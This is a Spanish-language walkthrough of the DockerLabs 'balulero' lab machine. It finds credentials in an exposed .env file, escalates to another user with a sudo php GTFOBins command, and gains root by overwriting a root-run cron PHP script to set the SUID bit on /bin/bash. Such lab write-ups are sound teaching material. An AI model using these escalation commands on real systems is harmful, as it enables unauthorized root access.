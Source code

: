 nmap: 22, 80

![image](https://github.com/user-attachments/assets/17d47401-b6fc-4bf1-bd5f-62a66bf34e98)

---
al ingresar a la pagina no da una posible usuario "balu"
al entrar al código de la pagina podemos ver que hay un "script.js" al final, si entramos nos mandara a otro código con lo que muestra esto:

![image](https://github.com/user-attachments/assets/3c3528f8-fc03-42b2-bedf-b5f8cfd48ec3)

y si colocamos el 
> .env_de_baluchingo

en el URL queda si:

>http://172.17.0.2/.env_de_baluchingon

nos dará las credenciales

![image](https://github.com/user-attachments/assets/a32544d7-07fa-49ea-b4b5-1a768c25d73d)

![image](https://github.com/user-attachments/assets/94b81bf7-84e2-4daa-be93-52a6fe54049e)

estamos dentro y ahora buscamos como escalar

para escalar se puede por "php" pero no tenemos permisos de escritura o modificación.
para escalar al otro usuario chocolate 
seguí los pasos de: https://gtfobins.github.io/gtfobins/php/#sudo

![image](https://github.com/user-attachments/assets/9dc11e61-3006-46e3-9a70-cb159c7f1377)

![image](https://github.com/user-attachments/assets/3bc81f7e-ba58-40f3-8784-53c88390b4fa)

    CMD="/bin/sh"

     sudo -u chocolate php -r "system('$CMD');"


ahora a escalar a root

utilizamos una herramienta llamada pspy para ver que ejecuta root sin ser root nosotros y poder ver: https://github.com/DominicBreuker/pspy
lo ejecutamos y muestra que esta carpeta se ejecuta cada 5 segundos:  /opt/script.php

![image](https://github.com/user-attachments/assets/9292dc4b-c6f1-496b-b9f3-626ab09e6868)

ejecutamos los siguientes comandos:

    echo "<?php" > /opt/script.php

    echo "exec ('chmod u+s /bin/bash');" >> /opt/script.php

    echo "?>" >> /opt/script.php

por orden uno por uno, lanzamos bash -p

![[dockerlabs/facil/balulero/root.png]]

y somos root! 
